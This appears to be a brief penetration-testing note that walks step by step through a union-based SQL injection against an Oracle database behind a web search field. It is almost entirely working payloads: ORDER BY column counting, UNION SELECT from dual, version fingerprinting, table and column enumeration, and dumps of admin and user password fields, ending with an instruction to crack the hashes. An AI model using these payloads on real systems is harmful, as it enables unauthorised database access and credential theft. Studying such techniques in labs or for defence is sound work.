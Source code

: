 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

| Syntax         | Description      |     |
| -------------- | ---------------- | --- |
| ' order by 1-- | no error message |     |
| ' order by 5-- | error message    |     |
| ' order by 4-- | error message    |     |
| ' order by 3-- | no error message |     |

So as of now we know that 3 is the last column which worked, let us prepare the union select statement

```
' union select 1,2,3--
```

Error Message:
>Something went wrong with the search: java.sql.SQLSyntaxErrorException: ORA-00923: FROM keyword not found where expected

>Unlike MySQL Oracle do not allow select statement without from clause. As we have prepared the Union select statement our next task is to check which column is getting printed that we can do by random testing each column one by one by printing the current database name

Testing for columns:
```SQL
' union select 1,2,3 from dual--
```

```SQL
' union select null,null,null from dual--
```

```SQL
' union select '1111',null,null from dual--
```

```SQL
' union select null,'2222',null from dual--
``` 

```SQL
' union select null,null,'3333' from dual--
```

```SQL
' union select user,null,null from dual--
``` 

Finding the version:
```SQL
' union select (select banner from v$version where rownum=1),null,null from dual--
``` 

Finding all table names:
```SQL
' union select table_name,null,null from all_tables--
```

Dumping columns of found table:
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_ADMINS'--
```

Dumping values of found columns:
```SQL
' union select ADMIN_ID||ADMIN_NAME||PASSWORD,null,null from WEB_ADMINS--
```

```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_CONTENT'--
```

```SQL
' union select AUTHOR||CONTENT_ID||RELEASEYEAR||TITLE,null,null from WEB_CONTENT--
```

```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_USERS'--
```

```SQL
' union select PASSWORD||USER_ID||USER_NAME,null,null from WEB_USERS--
```

Take hash value and crack!
